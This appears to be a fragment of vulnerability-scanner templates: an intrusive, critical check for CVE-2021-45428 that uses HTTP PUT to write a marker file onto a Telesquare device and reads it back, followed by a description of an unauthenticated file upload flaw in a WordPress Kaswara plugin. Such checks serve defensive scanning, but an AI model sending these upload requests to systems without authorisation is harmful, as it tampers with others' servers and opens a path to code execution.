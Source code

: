 - severity - critical
- tags - cve,cve2021,telesquare,intrusive,fileupload,packetstorm

## Requests

### Step - 1

```
GET /{{randstr}}.txt HTTP/1.1
Host: {{Hostname}}

```

### Step - 2

```
PUT /{{randstr}}.txt HTTP/1.1
Host: {{Hostname}}

CVE-2021-45428

```

### Step - 3

```
GET /{{randstr}}.txt HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. status_code_1 == 404 && status_code_2 == 201
  2. contains(body_3, "CVE-2021-45428") && status_code_3 == 200
- condition - and

---

# WordPress Kaswara Modern VC Addons \<=3.0.1 - Arbitrary File Upload

## Description

- WordPress Kaswara Modern VC Addons plugin through 3.0.1 is susceptible to an arbitrary file upload. The plugin allows unauthenticated arbitrary file upload via the uploadFontIcon AJAX action, which can be used to obtain code execution. The supplied zipfile is unzipped in the wp-content/uploads/kaswara/fonts_icon directory with no checks for malicious files such as PHP.

